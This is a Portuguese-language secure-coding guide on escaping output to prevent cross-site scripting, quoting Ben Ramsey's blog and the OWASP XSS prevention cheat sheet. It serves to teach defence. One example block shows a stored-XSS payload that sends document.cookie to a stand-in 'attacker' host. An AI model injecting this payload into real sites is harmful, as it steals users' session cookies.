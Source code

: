 # Escape as Saídas

### Explicação de um Parágrafo

HTML e outras linguagens da Web combinam conteúdo com código executável - um único parágrafo HTML pode conter uma representação visual de dados junto com instruções de execução de JavaScript. Ao renderizar HTML ou retornar dados da API, o que acreditamos ser um conteúdo puro pode realmente incorporar código JavaScript que será interpretado e executado pelo navegador. Isso acontece, por exemplo, quando renderizamos conteúdo que foi inserido por um invasor em um banco de dados - por exemplo `<div><script>//malicious code</script></div>`. Isso pode ser mitigado instruindo o navegador a tratar qualquer parte de dados não confiáveis ​​apenas como conteúdo e nunca interpretá-los - essa técnica é chamada de escape. Muitas bibliotecas npm e mecanismos de templates HTML fornecem recursos de escape (example: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Não só o conteúdo HTML deve ser escapado, mas também CSS e JavaScript


### Exemplo de código: não coloque dados não confiáveis ​​no seu HTML

```javascript
<script>...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...</script>   direto em um script
 
 <!--...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...-->             dentro de um comentário HTML
 
 <div ...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...=test />       em um nome de atributo
 
 <NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI... href="/test" />   no nome de uma tag
 
 <style>...NUNCA COLOQUE DADOS NÃO CONFIÁVEIS AQUI...</style>   direto no CSS

```

### Exemplo de código - Conteúdo mal-intencionado que pode ser injetado em um banco de dados

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Citação de Blog: "Quando não queremos que os caracteres sejam interpretados"

Do Blog [benramsey.com](https://benramsey.com/articles/escape-output/)
> Os dados podem deixar sua aplicação na forma de HTML enviado para um navegador da Web, SQL enviado para um banco de dados, XML enviado para um leitor de RSS, WML enviado para um dispositivo sem fio, etc. As possibilidades são ilimitadas. Cada um deles tem seu próprio conjunto de caracteres especiais que são interpretados de maneira diferente do resto do texto simples recebido. Às vezes queremos enviar esses caracteres especiais para que eles sejam interpretados (tags HTML enviadas para um navegador da Web, por exemplo), enquanto outras vezes (no caso de entrada de usuários ou alguma outra fonte), não queremos que os caracteres para ser interpretado, então precisamos escapar eles.

> Escaping também é conhecido como codificação. Em suma, é o processo de representar dados de maneira que não sejam executados ou interpretados. Por exemplo, o HTML renderizará o texto a seguir em um navegador da Web como texto em negrito, porque as marcações <strong> têm um significado especial:
<strong>Isso é um texto em negrito.</strong>
Mas, suponha que eu queira renderizar as tags no navegador e evitar sua interpretação. Então, eu preciso escapar os colchetes, que têm um significado especial em HTML. A seguir ilustra-se o HTML com escape:

&lt;strong&gt;Isso é um texto em negrito.&lt;/strong&gt;


<br/><br/>

### Citação de Blog: "OWASP recomenda usar uma biblioteca de codificação focada em segurança"

Do blog OWASP [Folha de Dicas de Prevenção de XSS (Cross Site Scripting)](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Escrever esses codificadores não é tremendamente difícil, mas existem algumas armadilhas ocultas. Por exemplo, você pode se sentir tentado a usar alguns dos atalhos de escape, como "\" em JavaScript. No entanto, esses valores são perigosos e podem ser mal interpretados pelos analisadores aninhados no navegador. Você também pode esquecer de escapar do caracter de escape, que os atacantes podem usar para neutralizar suas tentativas de segurança.**OWASP recomenda o uso de uma biblioteca de codificação focada em segurança para garantir que essas regras sejam implementadas corretamente**."


<br/><br/>

### Citação de Blog: "Você DEVE usar a sintaxe de escape para a parte do HTML"

Do blog OWASP [Folha de Dicas de Prevenção de XSS (Cross Site Scripting)](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Mas a codificação de entidade HTML não funciona se você estiver colocando dados não confiáveis ​​dentro de uma tag <script> em qualquer lugar, ou um atributo do manipulador de eventos, como onmouseover ou dentro de CSS, ou em uma URL. Portanto, mesmo se você usar um método de codificação de entidade HTML em todos os lugares, provavelmente ainda estará vulnerável ao XSS. Você DEVE usar a sintaxe de escape para a parte do documento HTML na qual você está colocando dados não confiáveis."